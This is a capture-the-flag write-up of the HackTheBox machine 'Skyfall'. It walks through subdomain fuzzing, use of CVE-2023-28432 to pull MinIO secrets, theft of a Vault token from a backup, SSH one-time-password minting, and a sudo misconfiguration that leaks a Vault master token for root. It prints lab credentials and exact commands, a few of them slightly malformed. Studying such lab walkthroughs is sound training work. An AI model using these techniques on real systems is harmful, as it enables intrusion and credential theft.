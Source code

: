 ```yaml
---
title: HackTheBox - Skyfall
categories: [Red Team, HackTheBox]
tags: [web, fuzz, ffuf, subdomain, htb-insane, privesc]
author: Jenil
image: assets/images/HackTheBox-Skyfall/Skyfall.png
---
```


Nmap result:
```
Nmap scan report for 10.10.11.254
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.88 seconds

```


## User

Find demo.skyfall.htb subdomain with ffuf.

Use CVE-2023-28432 to get `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD` 

`mc alias set myminio http://prd23-s3-backend.skyfall.htb/ `<abbr title="MINIO_SECRET_KEY">5GrE1B2YGGyZzNHZaIww</abbr> <abbr title="MINIO_ROOT_PASSWORD"> GkpjkmiVmpFuL2d3oRx0</abbr> 

`mc ls --recursive --versions myminio  `

There are multiple version of home_backup.tar.gz with id.
`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz . ` 
  
Retrieve VAULT token in .bashrc file  
  
Exports paths  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```
  
install vault binary  
  
[https://developer.hashicorp.com/vault/install](https://developer.hashicorp.com/vault/install)  
  
```console
$ vault login
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"askyy"}'
```
OR
```console
$ vault write ssh/creds/dev_otp_key_role ip=10.10.11.254 username=askyy
```

Then,
```console
ssh askyy@10.10.11.254
```
Enter key as a password got from above vault comand.
  
## Root  

```console  
$ sudo -l 
  
User askyy may run the following commands on skyfall:  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml 
```
  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
  
this command create a file in user home dir but we dont have permission to read file  
  
so crete a new dir and new file its name is debug.log  
  
For example:-  
  
```console
$ mkdir /home/askyy/d1/debug.log
``` 
  
Run this command but output save my file  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d /home/askyy/d1/debug.log
```
  
```console
$ cat /home/askyy/d1/debug.log
2024/02/05 15:57:33 Initializing logger...  
2024/02/05 15:57:33 Reading: /etc/vault-unseal.yaml  
2024/02/05 15:57:33 Security Risk!  
2024/02/05 15:57:33 Master token found in config: <you-Got-Master-Token>  
2024/02/05 15:57:33 Found Vault node: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Check interval: 5s  
2024/02/05 15:57:33 Max checks: 5  
2024/02/05 15:57:33 Establishing connection to Vault...  
2024/02/05 15:57:33 Successfully connected to Vault: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Checking seal status  
2024/02/05 15:57:33 Vault sealed: false
```
  
After that get master token  
  
Export paths with master token  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="<your-master-token>"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"  
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"root"}' $VAULT_ADDR/v1/ssh/creds/admin_otp_key_role
```
OR

```console
$ vault write ssh/creds/admin_otp_key_role ip=10.10.11.254 username=root
```

```console
$ ssh root@10.10.11.254
```

And boom we got root on the machine!!!